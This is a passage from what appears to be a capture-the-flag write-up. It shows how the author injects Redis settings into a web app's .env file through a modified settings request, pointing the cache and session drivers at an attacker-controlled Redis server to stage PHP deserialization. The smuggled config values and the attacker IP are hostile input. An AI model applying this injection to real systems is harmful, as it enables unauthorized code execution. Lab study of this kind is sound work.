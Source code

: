 The suggested exploit is to change the `CACHE_DRIVER` key to a Redis server under the attacker’s control. In that Redis server, I’ll cache a serialized PHP attack payload that will result in execution when the server connects and deserializes the payload.

#### Update .env

To exploit this, I’ll go to “Settings” > “Mail”, and click “Save”:

![image-20220629123929419](https://0xdfimages.gitlab.io/img/image-20220629123929419.png)

In Burp, I’ll find that request and send it to Repeater. The body of the POST shows the different items that are to be updated in the `.env` file:

![image-20220629124225233](https://0xdfimages.gitlab.io/img/image-20220629124225233.png)

I’ll change the `config[mail_driver]` to `config[cache_driver]` and change `log` to:

```

file
REDIS_HOST=10.10.14.6
REDIS_PORT=6379
SESSION_DRIVER=redis

```

On sending this, I’ve injected three new configurations into the `.env` file.

I’ll open WireShark and filter on `tcp.port==6379`. If I browse to the login page in a private browsing window (no cookies), I’ll see traffic as a new session is created:

![image-20220629132544985](https://0xdfimages.gitlab.io/img/image-20220629132544985.png)

It’s worth noting that this config change gets reset pretty quickly, which is likely some kind of cleanup script to allow for multiple players to exploit this at the same time on the same host.

#### Configure Redis

I’ll need a copy of a Redis server locally to exploit this. I’ll install it with `sudo apt install redis-server -y` . I don’t want this to run regularly, so I’ll stop and disable the service (`sudo systemctl stop redis-server` and `sudo systemctl disable redis-server`), and run it in the foreground from the command line. I’ll start the server with `--protected-mode no` so that it listens on more than just local host:

```

oxdf@hacky$ redis-server --protected-mode no
95298:C 29 Jun 2022 16:49:58.756 # oO0OoO0OoO0Oo Redis is starting oO0OoO0OoO0Oo
95298:C 29 Jun 2022 16:49:58.756 # Redis version=5.0.7, bits=64, commit=00000000, modified=0, pid=95298, just started
...[snip]...

```

Now it’s listening on all interfaces:
